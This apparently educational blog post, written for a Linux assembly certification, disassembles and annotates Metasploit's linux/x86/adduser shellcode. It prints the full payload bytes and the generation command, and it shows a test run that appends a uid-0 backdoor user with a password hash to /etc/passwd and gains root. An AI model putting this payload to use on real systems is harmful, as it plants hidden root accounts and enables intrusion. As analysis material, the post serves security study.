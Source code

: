 ```yaml
---
title:  "[SLAE 5] Metasploit Shellcode Analysis"
---
```


![Logo](/assets/images/tux-root.png)

## Metasploit Linux adduser shellcode analysis
This post is part of the 5th assignment of the SLAE course and will analyse the Metasploit _`linux/x86/adduser shellcode`_. First let's generate the shellcode: 
```bash
# msfpayload linux/x86/adduser USER=jsmith PASS=ok  C
```

This will generate a payload that will create a new _`root`_ user, with uid and gid equal to 0. 
```c
/*
 * linux/x86/adduser - 93 bytes
 * http://www.metasploit.com
 * VERBOSE=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, USER=jsmith, PASS=ok, SHELL=/bin/sh
 */
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73"
"\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d"
"\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e"
"\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01"
"\x58\xcd\x80";
```

To test it, I've integrated the shellcode into a C skeleton file and run against a Linux box: 
```bash
# cat /etc/passwd | grep jsmith
# ./shellcode
Shellcode Length:  40 bytes
# cat /etc/passwd | grep jsmith
jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh
# su jsmith
# id
uid=0(root) gid=0(root) groups=0(root)
```

As we can see, the new root user was successfully created. Next I continued to disassemble it: 
```bash
$ echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" |ndisasm -b 32 -
```
First the shellcode restores the privileges, in case the running process would have dropped them: 
```asm
00000000  31C9              xor ecx,ecx             ; Effective user id - 0
00000002  89CB              mov ebx,ecx             ; Real user id - 0
00000004  6A46              push byte +0x46         ; sys_setreuid16 syscall number
00000006  58                pop eax                 ; Sets real and effective user id
00000007  CD80              int 0x80                ; Fire the interrupt
```

Next, it will open the _`/etc/passwd`_ file. The flags for opening the file will be set to *`0x00000401: O_WRONLY|O_APPEND`*. 

*__Note1__*: the mode for opening the file, which should have been in `EDX` register, is not specified because it is ignored for _`O_CREAT`_ flag not specified:
```asm
00000009  6A05              push byte +0x5
0000000B  58                pop eax                 ; Prepare eax for sys_open syscall
0000000C  31C9              xor ecx,ecx             ; Set ecx to 0 
0000000E  51                push ecx                ; Push 0 to act as a null terminator
0000000F  6873737764        push dword 0x64777373   ; 'dwss'
00000014  682F2F7061        push dword 0x61702f2f   ; 'ap//'
00000019  682F657463        push dword 0x6374652f   ; 'cte/'
0000001E  89E3              mov ebx,esp             ; Filename: '/etc//passwd'
00000020  41                inc ecx  
```

*__Note2__*: the _`open`_ syscall and the parameters can also be easily viewed using strace program: 
```bash
# strace ./shellcode
[..]
open("/etc//passwd", O_WRONLY|O_APPEND) = 3 
```

The next part will write the _`jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n`_ string to it (username and encrypted password): 
```asm
00000025  93                xchg eax,ebx
00000026  E824000000        call dword 0x4f
; String starts  here -->
; jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n
0000002B  6A73              push byte +0x73
0000002D  6D                insd
0000002E  6974683A417A2E54  imul esi,[eax+ebp*2+0x3a],dword 0x542e7a41
00000036  4F                dec edi
00000037  53                push ebx
00000038  7267              jc 0xa1
0000003A  724D              jc 0x89
0000003C  36726F            ss jc 0xae
0000003F  3A30              cmp dh,[eax]
00000041  3A30              cmp dh,[eax]
00000043  3A3A              cmp bh,[edx]
00000045  2F                das
00000046  3A2F              cmp ch,[edi]
00000048  62696E            bound ebp,[ecx+0x6e]
0000004B  2F                das
0000004C  7368              jnc 0xb6
0000004E  0A. |--> String ends here
```

We then have to disassemble the instructions starting after the end of string (easily done in gdb): 
```asm
00000051  51                push ecx
00000052  FC                cld
00000053  6A04              push byte +0x4
00000055  58                pop eax         ; sys_write syscall
00000056  CD80              int 0x80
; write(3, "jsmith:Az.TOSrgrM6ro:0:0::/:/bin"..., 36) = 36
```

Finally the shellcode calls the exit function to cleanly finish execution: 
```assembly
00000058  6A01              push byte +0x1
0000005A  58                pop eax         ; sys_exit syscall
0000005B  CD80              int 0x80
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
